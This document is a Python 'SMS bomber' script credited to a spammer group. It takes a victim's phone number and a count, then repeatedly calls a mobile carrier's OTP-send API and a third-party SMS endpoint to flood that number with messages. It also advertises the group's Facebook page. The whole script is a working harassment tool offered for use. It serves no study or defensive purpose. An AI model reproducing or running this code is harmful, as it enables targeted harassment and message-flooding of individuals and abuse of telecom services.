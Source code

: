 # OPEN-SC
Script
#coded by Sp Shawpon
import os 
import requests
from concurrent.futures import ThreadPoolExecutor as bff 
import sys
WHITE = '\033[1;97m'
RED = '\033[1;91m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
x = '\x1b[0m'    # Def
send=0 
#----------------
def logo2():
    x = """
          {
        
           "TOOL":"SMS BOMBER",
           "OWNER":"/shawpon2"
           "VERSION":"1.0"
           "TEAM":"BLACK SPAMMER BD" 
      
          }
    """
    print(x)
def linex():
    print("-"*40)
def main():
    os.system('clear')
    logo2()
    linex()
    print(f"[A]{GREEN}>{GREEN} SP-BD SMS BOMBER-[SPEED UP]{x}")
    print(f"[B]{GREEN}>{GREEN} JOIN PUNLIC COMMIUNITY{x}")
    x2 = input(f"[=]{GREEN}> SELECT : ")
    if x2.lower() == "a":
        x3 = input(f"[=]{GREEN} > ENTER NUMBER {RED}:{GREEN} ")
        x4 = input(f"[=]{GREEN} > ENTER LIMIT {RED}:{GREEN} ")
        linex()
        if x4.isdigit():
            with bff(max_workers=120) as minhutanhu:
                try:
                    minhutanhu.submit(boom, x3, x4)
                except Exception as e:
                    print(e)
        else:
            main() 
    elif x2.lower() == "b":
        os.system('xdg-open https://facebook.com/groups/black.spammar.bd/')
        main()
    else:
        main()
def boom(nmbr, lmt):
    global send
    try:
        for i in range(int(lmt)):
            head1 = {
                'Host': 'da-api.robi.com.bd',
                'User-Agent': 'Mozilla/5.0 (Linux; Android 9; i68 Build/P00610; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/120.0.6099.144 Mobile Safari/537.36[FBAN/EMA;FBLC/en_US;FBAV/387.0.0.13.114;]' 'python-requests/2.31.0',
                'Accept': 'application/json',
                'Connection': 'keep-alive',
                'Content-Type': 'application/json'
            }
            data1 = {'msisdn': nmbr}
            url1 = "https://da-api.robi.com.bd/da-nll/otp/send"
            url2 = f"https://api.teamdccs.xyz/sms.php?number={nmbr}"
            req1 = requests.post(url1, headers=head1, json=data1)
            req2 = requests.get(url2)
            if req1.status_code == 200:
                send += 1
                print(f"\r[API-1]> STATUS : [200]>[{send}]")
                linex()
            else:
                pass 
            if req2.status_code == 200:
                send += 1 
                print(f"\r[API-2]> STATUS : [200]>[{send}]")
                linex()
            else:
                 pass
    except Exception as e:
        print(e)

main()
